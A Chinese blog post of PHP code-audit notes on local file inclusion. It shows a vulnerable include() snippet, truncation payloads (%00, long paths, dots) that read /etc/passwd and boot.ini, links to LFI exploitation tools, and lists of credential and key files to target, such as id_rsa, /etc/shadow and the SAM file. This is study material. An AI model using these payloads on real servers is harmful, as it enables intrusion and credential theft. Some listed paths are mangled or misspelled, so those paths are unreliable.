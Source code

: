 ```yaml
---
title: "[代码审计]PHP篇:文件包含漏洞"
desc: TonyD0g
date: 2022-01-23 16:18:35
tags: 代码审计
toc: true
---
```

<font size=4 >

<!-- more -->

## 1.漏洞案例:

有限制的本地文件包含:
```
<?php
include($_GET['file'].".php");
?>
```

#### %00截断:(有机会测试一下各个版本是否有效)
?file=C://Windows//win.ini%00 
**（window，magic_quotes_gpc=off，网络上盛传PHP小于5.3.4有效，未完全进行测试，亲测 PHP 5.2.17有效，PHP-5.3.29-nts无效）**

?file==../../../../../../../../../etc/passwd%00 
**(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)**

#### 路径长度截断：
?file=../../../../../../../../../etc/passwd/././././././.[...]/./././././. 
**(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)**

#### 点号截断：
?file=../../../../../../../../../boot.ini/.........[...]............
**(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)**


## 2.利用工具:(个人没用过，有机会试试)
文件包含漏洞利用工具
LFISuite：https://github.com/D35m0nd142/LFISuite
LFI Scan & Exploit Tool：https://github.com/P0cL4bs/Kadimus/

## 3.常见包含路径:
#### Windows:
```
C:\boot.ini //查看系统版本
C:WindowsSystem32inetsrvMetaBase.xml //IIS配置文件
C:Windowsrepairsam //存储系统初次安装的密码
C:Program Filesmysqlmy.ini //Mysql配置
C:Program Filesmysqldatamysqluser.MYD //Mysql root
C:Windowsphp.ini //php配置信息
C:Windowsmy.ini //Mysql配置信息C:Windowswin.ini //Windows系统的一个基本系统配置文件
```
#### Linux:
```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数
```

## 学习来源:
```
公众号Bypass 《PHP代码审计入门笔记》

《Web安全原理分析与实践》   李江涛
```
</font>